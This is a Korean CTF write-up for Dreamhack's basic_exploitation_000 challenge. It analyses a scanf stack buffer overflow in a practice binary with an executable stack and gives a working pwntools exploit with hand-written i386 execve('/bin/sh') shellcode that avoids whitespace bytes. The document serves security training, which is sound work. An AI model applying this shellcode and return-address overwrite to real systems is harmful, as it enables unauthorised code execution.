

# [Dreamhack.io] basic_exploitation_000 Write-Up

* **Platform:** Dreamhack
* **Date:** 2026-08-28 (solved) / 2026-09-01 (written)
* **Difficulty:** Easy
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh` 실행
> - **제공 파일:** `basic_exploitation_000`, `basic_exploitation_000.c`
> - **보호 기법:**
> ```
> Arch:       i386-32-little
> RELRO:      No RELRO
> Stack:      No canary found
> NX:         NX unknown - GNU_STACK missing
> PIE:        No PIE (0x8048000)
> Stack:      Executable
> RWX:        Has RWX segments
> Stripped:   No
> ```


---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

```c
int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

- `scanf("%141s", buf);` 에서 `buf` 변수 크기보다 크게 입력을 받기 때문에 스택 버퍼 오버플로우가 발생한다.
- 또한 현재 바이너리에 스택은 `RWX segment`이므로, `RET`을 `buf` 주소로 바꾸면 쉘 코드를 실행할 수 있다.

---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> - `buf` 변수 내에 쉘을 실행시킬 수 있는 코드를 작성한다.
> - `RET` 주소가 `buf` 변수 주소가 될 수 있게끔 페이로드를 구성한다.

> ⚠️ 쉘 코드를 사용할 때의 주의점
> - 주어진 바이너리는 사용자의 입력을 `scanf` 함수로 처리한다.
> - `scanf` 함수는 공백, 개행, 탭 등 화이트스페이스를 만나면 입력을 종료하므로, 쉘 코드 내에 화이트스페이스에 해당하는 값이 없어야 된다.
> - 만약 단순히, `shellcraft.sh()` 명령어를 통해 쉘 코드를 만든다면, `execve` 시스템 콜을 수행하게 위해 `eax` 레지스터를 `0xb`로 설정하는 명령이 들어간다.
> - 여기서 `0xb`는 `scanf` 입장에서 화이트스페이스(VT, Vertical Tab)이므로 이후의 시스템 콜을 호출하는 `int 0x80` 구문을 입력받지 않을 것이다.
> - 따라서 페이로드를 커스텀하여 `scanf` 함수가 모든 명령을 읽을 수 있도록 해야 된다.


---

## 4. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'error'

# p = process('./basic_exploitation_000')
p = remote('host3.dreamhack.games', 24429)

p.recvuntil(b'buf = (')
buf_addr = int(p.recvuntil(b')\n', drop=True), 16)

data = '''
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
lea ebx, [esp]

xor ecx, ecx
xor edx, edx

mov al, 0x8
inc eax
inc eax
inc eax    # 0x8에서 3을 더해서 0xb를 만든다.
int 0x80
'''

shellcode = asm(data)

payload = shellcode
payload += b'A' * (0x80 - len(shellcode))
payload += p32(0xDEADBEEF)
payload += p32(buf_addr)

p.sendline(payload)

p.interactive()
```

- 다음은 원격 서버에 실행한 결과이다.



---

## 5. 배운 점 && 오답 노드

- **새로 배운 점:**
	- `scanf`: 화이트스페이스를 입력 종료로 인식하므로, 입력이 끊기지 않도록 주의해야 한다.